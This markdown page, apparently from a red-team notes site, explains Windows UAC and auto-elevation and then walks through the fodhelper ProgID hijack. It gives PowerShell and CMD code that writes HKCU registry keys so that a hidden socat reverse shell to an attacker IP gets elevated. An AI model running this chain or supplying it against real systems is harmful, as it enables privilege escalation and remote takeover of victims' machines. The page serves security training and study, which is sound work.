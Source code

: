 # UAC Bypass

## Theory

The User Account Control [UAC](https://learn.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works). Its a Windows security feature that forces any new process to run in the security context of a non-privileged account by default.. 

### Integrity Levels

UAC is a **Mandatory Integrity Control** (MIC), which is a mechanism that allows differentiating users, processes and resources by assigning an Integrity Level (IL) to each of them. In general terms, users or processes with a higher IL access token will be able to access resources with lower or equal ILs. MIC takes precedence over regular Windows DACLs  
The following 4 ILs are used by Windows, ordered from lowest to highest:  

| Integrity Level         | Use                                                 |
| ----------------------- | --------------------------------------------------- |
| Low                     | Very limited permissions                            |
| Medium                  | users and Administrators' filtered tokens.          |
| High                    | Administrators' elevated tokens if UAC is enabled.  |
| System                  | Reserved for system use.                            |

### AutoElevate 
some executables can auto-elevate, achieving high IL without any user intervention. This applies to most of the Control Panel's functionality and some executables provided with Windows. For an application, some requirements need to be met to auto-elevate:  
    - The executable must be signed by the Windows Publisher  
    - The executable must be contained in a trusted directory, like %SystemRoot%/System32/ or %ProgramFiles%/  
    - Executable files (.exe) must declare the autoElevate element inside their manifests. To check a file's manifest, we can use sigcheck.  

Indeed we can leverage this executables to bypass UAC. Let's dive in:  
{% hint style="danger" %}
if UAC is configured on the "Always Notify" level, fodhelper and similar apps won't be of any use as they will require the user to go through the UAC prompt to elevate.
{% endhint %}

## Practice

 Microsoft doesn't consider UAC a security boundary but rather a simple convenience to the administrator to avoid unnecessarily running processes with administrative privileges. In that sense any bypass technique is not considered a vulnerability to Microsoft, and therefore some of them remain unpatched to this day.

### Using ProgID to bypass UAC
we will create an entry on the registry for a new progID of our choice (any name will do) and then point the CurVer entry in the ms-settings progID to our newly created progID. This way, when fodhelper tries opening a file using the ms-settings progID, it will notice the CurVer entry pointing to our new progID and check it to see what command to use.  
{% tabs %}
{% tab title="Powershell" %}
The exploit code is proposed by [V3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)
```bash
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```
{% hint style="danger" %}
Detected by Windowds Defender
{% endhint %}
{% endtab %}

{% tab title="CMD" %}
V3ded exploit converted in CMD by TryHackMe
```bash
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
```  
{% endtab %}
{% endtabs %}

## References

{% embed url="https://tryhackme.com/room/bypassinguac" %}
{% embed url="https://github.com/hfiref0x/UACME" %}
{% embed url="https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses" %}
